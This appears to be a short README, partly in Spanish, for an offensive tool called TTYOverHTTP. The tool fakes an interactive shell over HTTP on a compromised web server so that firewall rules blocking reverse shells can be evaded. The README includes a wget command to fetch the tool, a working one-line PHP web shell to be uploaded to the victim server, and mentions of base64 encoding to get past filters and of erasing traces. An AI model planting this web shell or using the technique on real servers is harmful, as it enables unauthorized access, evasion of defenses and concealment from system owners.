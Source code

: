 # TTYOverHTTP
```shell
wget https://raw.githubusercontent.com/jaumesaa/easier-ttyoverhttp/master/tty_over_http.py
```
*esto es un fork de s4vitar, ¿estamos?*
--------------------------------------------
Sometimes when we compromise a web server, there are configured rules (**Ex: iptables**) that prevent us from obtaining a Reverse Shell via Netcat, Python, or another utility.

 With this tool, we avoid having to use a reverse shell to
 obtain a TTY later fully interactive.  Through files
 '**mkfifo**', we play to simulate an interactive TTY over HTTP, achieving
 manage the system comfortably without any type of problem.

 The only thing we need is to upload a PHP structure like the following to the compromised server to execute commands:
```php
<?php
	echo shell_exec($_REQUEST['cmd']);
?>
```

 After its execution, you'll have a tty that will allow you to execute commands that the firewall or other filters were filtering with base64encode. Also will simulate commands like "cd.." or "pwd", to navigate between directories comfortably with mkfifo, JUST LIKE AN INTERACTIVE TTY!!
 Ctrl+C to erase any trace.

